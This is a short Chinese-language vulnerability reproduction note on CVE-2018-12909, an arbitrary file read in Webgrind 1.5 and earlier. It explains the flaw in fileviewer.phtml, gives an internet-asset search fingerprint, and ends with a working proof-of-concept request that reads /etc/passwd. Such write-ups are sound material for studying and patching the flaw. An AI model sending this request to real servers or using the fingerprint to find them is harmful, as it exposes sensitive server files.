 # 

# Webgrind fileviewer.phtml 任意文件读取漏洞 CVE-2018-12909

## 漏洞描述

Webgrind是一套PHP执行时间分析工具。其中Webgrind 1.5版本中存在安全漏洞，该漏洞源于程序依靠用户输入来显示文件。攻击者可以通过漏洞读取服务器敏感文件

## 漏洞影响

```
Webgrind <= 1.5
```

## 网络测绘

```
app="Webgrind"
```

## 漏洞复现

主页面

![image-20220829102424295](./images/202208291024336.png)

方法调用在 index.php 中

![image-20220829102436964](./images/202208291024049.png)

当参数为 fileviewer 时，将参数传递包含在文件 templates/fileviewer.phtml 中

![image-20220829102450812](./images/202208291024892.png)

参数 file 传入 `fileviewer.phtml` 通过函数 `highlight_file` 显示在页面中， 验证POC

```
/index.php?op=fileviewer&file=/etc/passwd
```

![image-20220829102503956](./images/202208291025034.png)
